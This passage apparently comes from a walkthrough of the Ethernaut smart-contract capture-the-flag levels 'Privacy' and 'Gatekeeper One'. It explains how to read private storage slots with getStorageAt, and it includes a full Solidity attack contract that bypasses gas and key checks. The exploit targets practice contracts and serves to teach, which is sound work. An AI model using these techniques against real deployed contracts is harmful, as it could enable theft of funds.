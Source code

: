 ```
}
```

# 12. Privacy

- "Privacy" as we saw earlier in Coinflip nothing is private in blockchain not even the private variables.
- EVM stores data as slots each slots are 32 bytes or 256 bits in size so each variables are stored on these slots according to their types.
- In this contract 6 slots are used for the variables : 1 for bool, 1 for uint256, 1 for 2\*uint8 + uint16 and 3 for bytes32[3].
- Here in the require statement data[2] means the 3rd slot for the bytes[3] Because it is stored as 0, 1 and 2.
- We can get the data of each slots from `getStorageAt(...)` function of [web3.js](https://web3js.readthedocs.io/en/v1.8.1/web3-eth.html#getstorageat).
- Here we take the data from the 6th slot (i.e, 5th position), convert that to bytes16 and pass that to unlock function.

# 13. Gatekeeper One

- Here there are 3 modifiers that we need to crack in that first GateOne is same as the Telephone challange we just have to call the function from an contract.
- Second one uses an inbuilt function named `gasleft()` which is used to return the gas left in that contract it checks whether the `gasleft()` is multiple of 8191.
- Third one looks challenging but it just takes specific bits from each inputs and checks the equality. We can see `tx.origin` is the key used here.

```
  contract Hack {

    function enter(address _target, uint gas) external {
        IGateKeeperOne target = IGateKeeperOne(_target);
        // Modifier 3

        // uint64 k;
        // Req3: uint32(k) == uint16(uint160(tx.origin)));
        // Req1: uint32(k) == uint16(k);
        uint16 k16 = uint16(uint160(tx.origin));
        // Req2: uint32(k) != k;
        uint64 k64 = uint64(1 << 63) + uint64(k16);


        bytes8 key = bytes8(k64);
        require(gas < 8191, "gas > 8191"); //Modifier 2
        require( target.enter{gas: 8191 * 10 + gas}(key), "failed");

    }
}
```
